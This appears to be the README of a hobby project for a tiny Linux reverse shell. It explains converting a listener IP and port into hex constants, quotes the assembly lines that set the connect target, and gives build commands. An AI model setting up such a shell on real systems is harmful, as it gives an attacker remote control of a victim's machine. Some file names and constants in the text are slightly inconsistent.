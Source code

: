 # Reverse Shell

This project showcases my attempt at creating the smallest possible reverse
shell. Currently, the compiled binary weighs in at **236 bytes**.

The primary goal here was to achieve basic reverse shell functionality with the
leanest possible codebase, prioritizing binary size above all other considerations.

| Binary                 | Source Language | Size (bytes) |
| ---------------------- | --------------- | -----------: |
| hello.asm.x86_64.linux | Assembly        |          236 |
| hello.c.x86_64.linux   | C               |         4504 |

## Usage

To utilize this reverse shell, you'll need to modify the source file
to specify the target IP address and port for the connection.

### Generating the IP Address Constant

For your convenience, you can use the following Python command to convert a
standard IPv4 address into the hexadecimal format required by the source files:

```shell
python3 magic.py
Enter IP address (e.g. 127.0.0.1): 10.11.131.43
Enter port number (e.g. 4242): 6666

🪄 Magic bytes:
Port:        0x0a1a
IP address:  0x2b830b0a

🧙 And the magic connect string for assembly:
0x2b830b0a0a1a0002
```

The magic numbers are `0x1a0a` and `0x2b830b0a`

### shell.c

**Steps:**

1.  **Edit `shell.c`**: Open the `shell.c` file in a text editor.
2.  **Locate Target Information**: Find the lines within the code where the
    target IP address and port are defined at the top of the file.
3.  **Modify Target**: Replace the placeholder IP address and port with the
    actual IP address and port of your listening server.

### shell.s

1.  **Edit `shell.s`**: Open the `shell.s` file in a text editor.
2.  **Locate the target lines**: The targets are inlined to save space. It is
    lines 58 and 59.
    ```
    mov word [rsp + 2], 0x9210      ; sin_port = __builtin_bswap16(4242) (0x1092)
    mov dword [rsp + 4], 0x0100007F ; sin_addr = 127.0.0.1 (0x7F000001)
    ```
3.  **Change** the magic values to the ones generated with the script.

## Build

To compile all the shells into executables, use the provided Makefile:

```Shell
make
```

You can also specify what shells you want

```shell
make shell.asm.x86_64.linux
make shell.c.x86_64.linux
```

## Important Security Considerations

- Use with Caution: This is a basic reverse shell intended solely for
  educational and experimental purposes. Using it in unauthorized environments
  is illegal and unethical.
- Lack of Security Features: This minimal implementation lacks any form of
  encryption, authentication, or advanced security measures. All network
  traffic is transmitted in plain text.
- Potential Instability: Due to its extreme focus on minimizing size, this
  shell might be less robust and more prone to errors compared to more
  comprehensive and feature-rich implementations.

## Further Exploration

My next steps for this project involve expanding its compatibility to other
architectures and operating systems. Specifically, I plan to attempt:

- 32 bit systems
- ARM and ARM64 architectures
- Windows operating system
- macOS operating system (It might already work but i haven't tested it)
